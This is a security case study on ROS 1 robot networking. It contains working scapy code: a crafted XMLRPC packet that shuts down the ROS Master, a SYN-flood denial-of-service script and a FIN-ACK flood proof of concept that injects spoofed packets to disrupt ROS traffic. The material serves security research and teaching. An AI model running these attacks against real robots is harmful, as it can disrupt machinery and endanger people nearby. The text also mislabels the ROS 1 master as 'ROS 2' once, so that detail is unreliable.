

\newpage

## Robot Operating System (ROS 1)

The Robot Operating System (ROS) is the de *facto* standard for robot application development [@Quigley09]. It's a framework for creating robot behaviors that comprises various stacks and capabilities for message passing, perception, navigation, manipulation or security, among others. It's [estimated](https://www.businesswire.com/news/home/20190516005135/en/Rise-ROS-55-total-commercial-robots-shipped) that by 2024, 55% of the total commercial robots will be shipping at least one ROS package. **ROS is to roboticists what Linux is to computer scientists**.

This case study will analyze the security of ROS and demonstrate a few security flaws that made the community jump into a more robust evolution: ROS 2[^1] (see [case study on ROS 2](../2_ros2/))

[^1]: ROS 2 is the second edition of ROS targeting commercial solutions and including additional capabilities. ROS 2 (Robot Operating System 2) is an open source software development kit for robotics  applications. The purpose of ROS 2 is to offer a standard software platform to developers across industries that will carry them from research and prototyping through to deployment and  production. ROS 2 builds on the success of ROS 1, which is used today in myriad robotics applications  around the world.


### Dissecting ROS network interactions through scapy

TCPROS is a transport layer for ROS Messages and Services. It uses standard TCP/IP sockets for transporting message data. Inbound connections are received via a TCP Server Socket with a header containing message data type and routing information. This class focuses on capturing the ROS Slave API.

Until it gets merged upstream (see [TCPROS PR](https://github.com/secdev/scapy/pull/3462)), you can get the TCPROS dissector as follows:

```bash
pip3 install git+https://github.com/vmayoral/scapy@tcpros
```

An example package is presented below:


```python
from scapy.contrib.tcpros import *
bind_layers(TCP, TCPROS)
bind_layers(HTTPRequest, XMLRPC)
bind_layers(HTTPResponse, XMLRPC)

pkt =   b"POST /RPC2 HTTP/1.1\r\nAccept-Encoding: gzip\r\nContent-Length: " \
        b"227\r\nContent-Type: text/xml\r\nHost: 12.0.0.2:11311\r\nUser-Agent:" \
        b"xmlrpclib.py/1.0.1 (by www.pythonware.com)\r\n\r\n<?xml version=" \
        b"'1.0'?>\n<methodCall>\n<methodName>shutdown</methodName>\n<params>" \
        b"\n<param>\n<value><string>/rosparam-92418</string></value>\n" \
        b"</param>\n<param>\n<value><string>BOOM</string></value>" \
        b"\n</param>\n</params>\n</methodCall>\n"

p = TCPROS(pkt)
```

or alternatively, crafting it layer by layer:

```python
p = (
    IP(version=4, ihl=5, tos=0, flags=2, dst="12.0.0.2")
    / TCP(
        sport=20001,
        dport=11311,
        seq=1,
        flags="PA",
        ack=1,
    )
    / TCPROS()
    / HTTP()
    / HTTPRequest(
        Accept_Encoding=b"gzip",
        Content_Length=b"227",
        Content_Type=b"text/xml",
        Host=b"12.0.0.2:11311",
        User_Agent=b"xmlrpclib.py/1.0.1 (by www.pythonware.com)",
        Method=b"POST",
        Path=b"/RPC2",
        Http_Version=b"HTTP/1.1",
    )
    / XMLRPC()
    / XMLRPCCall(
        version=b"<?xml version='1.0'?>\n",
        methodcall_opentag=b"<methodCall>\n",
        methodname_opentag=b"<methodName>",
        methodname=b"shutdown",
        methodname_closetag=b"</methodName>\n",
        params_opentag=b"<params>\n",
        params=b"<param>\n<value><string>/rosparam-92418</string></value>\n</param>\n<param>\n<value><string>BOOM</string></value>\n</param>\n",
        params_closetag=b"</params>\n",
        methodcall_closetag=b"</methodCall>\n",
    )
)
```

This package will invoke the `shutdown` method of ROS 2 Master, shutting it down, together with all its associated Nodes.

Let's take a look at other potential attacks against ROS.

### SYN-ACK DoS flooding attack for ROS

A SYN flood is a type of OSI Level 4 (Transport Layer) network attack. The basic idea is to keep a server busy with idle connections, resulting in a a Denial-of-Service (DoS) via a maxed-out number of connections. Roughly, the attack works as follows:


- the client sends a TCP `SYN` (`S` flag) packet to begin a connection with a given end-point (e.g. a server).
- the server responds with a `SYN-ACK` packet, particularly with a TCP `SYN-ACK` (`SA` flag) packet.
- the client responds back with an `ACK` (flag) packet. In normal operation, the client should send an `ACK` packet followed by the data to be transferred, or a `RST` reply to reset the connection. On the target server, the connection is kept open, in a `SYN_RECV` state, as the `ACK` packet may have been lost due to network problems.
- In the attack, to abuse this handshake process, an attacker can send a *SYN Flood*, a flood of `SYN` packets, and do nothing when the server responds with a `SYN-ACK` packet. The server politely waits for the other end to respond with an `ACK` packet, and because bandwidth is fixed, the hardware only has a fixed number of connections it can make. Eventually, the SYN packets max out the available connections to a server with hanging connections. New sockets will experience a denial of service.

A proof-of-concept attack was developed on the simulated target scenario (above) to isolate communications. The attack exploit is displayed below:

```python
print("Capturing network traffic...")
packages = sniff(iface="eth0", filter="tcp", count=20)
targets = {}
for p in packages[TCPROSBody]:
    # Filter by ip
    # if p[IP].src == "12.0.0.2":
    port = p.sport
    ip = p[IP].src
    if ip in targets.keys():
        targets[ip].append(port)
    else:
        targets[ip] = [port]

# Get unique values:
for t in targets.keys():
    targets[t] = list(set(targets[t]))

# Select one of the targets
dst_target = list(map(itemgetter(0), targets.items()))[0]
dport_target = targets[dst_target]

# Small fix to meet scapy syntax on "dport" key
#  if single value, can't go as a list
if len(dport_target) < 2:
    dport_target = dport_target[0]

p=IP(dst=dst_target,id=1111,ttl=99)/TCP(sport=RandShort(),dport=dport_target,seq=1232345,ack=10000,window=10000,flags="S")/"SYN Flood DoS"
ls(p)
ans,unans=srloop(p,inter=0.05,retry=2,timeout=4)
```

In many systems, attacker would find no issues executing this attack and would be able to bring down ROSTCP interactions if the target machine's  networking stack isn't properly configured. To defend against this attack, a user would need to set up their kernel's network stack appropriately. In particular, they'd need to ensure that `TCP SYN cookies` are enabled. `SYN cookies` work by not using the `SYN` queue at all. Instead, the kernel simply replies to the `SYN` with a `SYN-ACK`, but will include a specially crafted TCP sequence number that encodes the source and destination IP address, port number and the time the packet was sent. A legitimate connection would send the `ACK` packet of the three way handshake with the specially crafted sequence number. This allows the system to verify that it has received a valid response to a `SY cookie` and allow the connection, even though there is no corresponding `SYN` in the queue.


### FIN-ACK flood attack targeting ROS

The previous `SYN-ACK` DoS flooding attack did not affect hardened control stations because it is blocked by `SYN cookies` at the Linux kernel level. I dug a bit further and looked for alternatives to disrupt ROS-Industrial communications, even in in the presence of hardening (at least to the best of my current knowledge).

After testing a variety of attacks against the ROS-Industrial network including `ACK and PUSH ACK` flooding, `ACK Fragmentation` flooding or `Spoofed Session` flooding among others, assuming the role of an attacker I developed a valid disruption proof-of-concept using the `FIN-ACK` attack.  Roughly, soon after a successful three or four-way `TCP-SYN` session is established, the `FIN-ACK` attack sends a `FIN` packet to close the `TCP-SYN` session between a host and a client machine. Given a `TCP-SYN` session established by ROSTCP between two entities wherein one is relying information of the robot to the other (running the ROS master) for coordination,  the `FIN-ACK` flood attack sends a large number of spoofed `FIN` packets that do not belong to any session on the target server. The attack has two consequences: first, it tries to exhaust a recipient's resources – its RAM, CPU, etc. as the target tries to process these invalid requests. Second, the communication is being constantly finalized by the attacker which leads to ROS messages being lost in the process, leading to the potential loss of relevant data or a significant lowering of the reception rate which might affect the performance of certain robotic algorithms.

The following script displays the simple proof-of-concept developed configured for validating the attack in the simplified isolated scenario.

```python
def tcpros_fin_ack():
    """
    crafting a FIN ACK interrupting publisher's comms
    """
    flag_valid = True
    targetp = None
    targetp_ack = None
    # fetch 10 tcp packages
    while flag_valid:
        packages = sniff(iface="eth0", filter="tcp", count=4)
        if len(packages[TCPROSBody]) < 1:
            continue
        else:
            # find first TCPROSBody and pick a target
            targetp = packages[TCPROSBody][-1]  # pick latest instance
            index = packages.index(packages[TCPROSBody][-1])
            for i in range(index + 1, len(packages)):
                targetp_ack = packages[i]
                # check if the ack matches appropriately
                if targetp[IP].src == targetp_ack[IP].dst and \
                        targetp[IP].dst == targetp_ack[IP].src and \
                        targetp[TCP].sport == targetp_ack[TCP].dport and \
                        targetp[TCP].dport == targetp_ack[TCP].sport and \
                        targetp[TCP].ack == targetp_ack[TCP].seq:
                    flag_valid = False
                    break

    if not flag_valid and targetp_ack and targetp:
        # Option 2
        p_attack =IP(src=targetp[IP].src, dst=targetp[IP].dst,id=targetp[IP].id + 1,ttl=99)\
            /TCP(sport=targetp[TCP].sport,dport=targetp[TCP].dport,flags="FA", seq=targetp_ack[TCP].ack,
            ack=targetp_ack[TCP].seq)

        ans = sr1(p_attack, retry=0, timeout=1)

        if ans and len(ans) > 0 and ans[TCP].flags == "FA":
            p_ack =IP(src=targetp[IP].src, dst=targetp[IP].dst,id=targetp[IP].id + 1,ttl=99)\
                /TCP(sport=targetp[TCP].sport,dport=targetp[TCP].dport,flags="A", seq=ans[TCP].ack,
                ack=ans[TCP].seq + 1)
            send(p_ack)

while True:
    tcpros_fin_ack()
```

The following figure shows the result of the `FIN-ACK` attack on a targeted machine. Image displays a significant reduction of the reception rate and down to more than half (4.940 Hz) from the designated 10 Hz of transmission. The information sent from the publisher consists of an iterative integer number however the data received in the target *under attack* shows significant integer jumps, which confirm the package losses. More elaborated attacks could be built upon using a time-sensitive approach. A time-sensitive approach could lead to more elaborated attacks.


